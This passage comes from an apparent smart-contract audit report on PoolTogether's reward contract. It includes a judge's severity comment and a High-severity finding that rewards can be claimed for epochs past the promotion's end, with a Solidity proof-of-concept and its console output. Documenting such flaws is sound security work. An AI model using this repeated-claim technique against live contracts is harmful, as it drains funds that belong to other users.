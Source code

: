 **[LSDan (judge) commented](https://github.com/code-423n4/2021-12-pooltogether-findings/issues/8#issuecomment-1008326253):**
 > Per the Judge Onboarding document provided by Code423n4, this qualifies as a high risk issue. A UI bug or simple mistake could cause complete loss of funds as sponsor acknowledged.
> 
> `
> 3 — High (H): vulns have a risk of 3 and are considered “High” severity when assets can be stolen/lost/compromised directly (or indirectly if there is a valid attack path that does not have hand-wavy hypotheticals).
> `



## [[H-03] Continue claiming reqrds after numberOfEpochs are over](https://github.com/code-423n4/2021-12-pooltogether-findings/issues/20)
_Submitted by gpersoon, also found by 0xabc, csanuragjain, harleythedog, kenzo, and leastwood_

#### Impact

When claiming rewards via `claimRewards()`, the function `\_calculateRewardAmount()` is called.
The function `\_calculateRewardAmount()` has a check to make sure the epoch is over

```solidity
  require(block.timestamp > _epochEndTimestamp, "TwabRewards/epoch-not-over"); 
```

However neither functions check if the `\_epochId` is within the range of the reward epochs.
Ergo it is possible to continue claiming rewards after the reward period is over.
This only works as long as there are enough tokens in the contract. But this is the case when not everyone has claimed, or other rewards use the same token.

The proof of concept contains a simplified version of the contract, and shows how this can be done.
When run in remix you get the following output, while there is only 1 epoch.
`console.log:
 Claiming for epoch 1 1
 Claiming for epoch 2 1
 Claiming for epoch 3 1
 Claiming for epoch 4 1
 Claiming for epoch 5 1`

#### Proof of Concept

```solidity
 // SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.6;
import "hardhat/console.sol";  

contract TwabRewards {

    struct Promotion {
        uint216 tokensPerEpoch;
        uint32 startTimestamp;
        uint32 epochDuration;
        uint8 numberOfEpochs;
    }
    mapping(uint256 => Promotion) internal _promotions;
    uint256 internal _latestPromotionId;
    mapping(uint256 => mapping(address => uint256)) internal _claimedEpochs;
    
    constructor() {
        uint id=createPromotion(1,uint32(block.timestamp)-10,1,1);
        claimRewards(id,1);
        claimRewards(id,2);
        claimRewards(id,3);
        claimRewards(id,4);
        claimRewards(id,5);
```